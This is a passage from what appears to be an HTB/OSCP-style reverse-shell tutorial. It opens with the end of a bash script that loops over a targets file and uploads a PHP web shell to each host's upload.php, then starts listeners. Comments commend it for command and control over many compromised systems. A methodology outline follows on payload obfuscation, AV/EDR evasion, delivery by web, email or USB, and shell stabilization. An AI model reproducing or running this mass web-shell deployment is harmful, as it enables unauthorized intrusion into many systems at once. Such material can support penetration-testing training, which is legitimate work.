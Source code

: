 ```bash
        
        # HTTP deployment
        curl -X POST -F "file=@payloads/shell.php" "http://$target/upload.php" 2>/dev/null
        
    done < "$TARGETS_FILE"
}

# Main execution
generate_payloads
setup_listeners
deploy_to_targets

echo "[+] Deployment complete. Check listeners for incoming connections."
EOF

chmod +x deploy_payloads.sh

# Why automation is valuable for large operations:
# - Manages multiple simultaneous shells efficiently
# - Automates repetitive deployment tasks
# - Provides centralized command and control
# - Scales to handle numerous compromised systems
# - Reduces manual effort and human error
```

## Reverse Shell Methodology Summary

### **HTB/OSCP Reverse Shell Workflow**

**Systematic approach for reverse shell mastery:**

1. **Platform and Environment Assessment**
   - Identify target operating system and architecture
   - Determine available interpreters and tools
   - Assess network restrictions and firewall rules
   - Evaluate security tool presence (AV/EDR)

2. **Payload Generation and Customization**
   - Generate appropriate payload for target platform
   - Apply encoding and obfuscation techniques
   - Customize payload for specific environment constraints
   - Create backup payloads with different methods

3. **Delivery and Execution**
   - Select optimal delivery mechanism (web, email, USB, etc.)
   - Execute payload on target system
   - Establish initial reverse connection
   - Verify successful shell establishment

4. **Shell Stabilization and Enhancement**
   - Upgrade basic shell to fully interactive TTY
   - Configure proper terminal settings and environment
   - Install additional tools and capabilities
   - Implement error handling and reconnection logic
